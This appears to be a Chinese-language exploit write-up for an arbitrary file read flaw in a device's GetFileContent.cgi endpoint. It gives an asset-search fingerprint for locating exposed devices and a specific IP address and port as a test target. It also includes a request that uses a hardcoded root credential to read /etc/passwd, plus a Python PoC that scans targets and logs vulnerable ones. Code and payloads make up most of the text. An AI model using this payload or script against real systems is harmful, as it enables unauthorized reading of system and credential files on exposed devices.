 ## 一、资产搜索

```
body="local/NVT-string.js"
```

## 二、网站测试

```
http://175.215.64.92:10008
```

## 三、验证漏洞

```
/cgi-bin/GetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/etc/passwd&_=1672577046605
```

![image-20240914152931634](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914152931634.png)

## 四、POC

```
def poc(target):
    payload = "/cgi-bin/GetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/etc/passwd&_=1672577046605"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "root" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"{target}\n")
                    f.close()
                    print(f"[+]{target}存在任意文件读取漏洞")
                    # return True
            else:
                print(f"[-]{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请手动测试！！！")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240914153314924](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914153314924.png)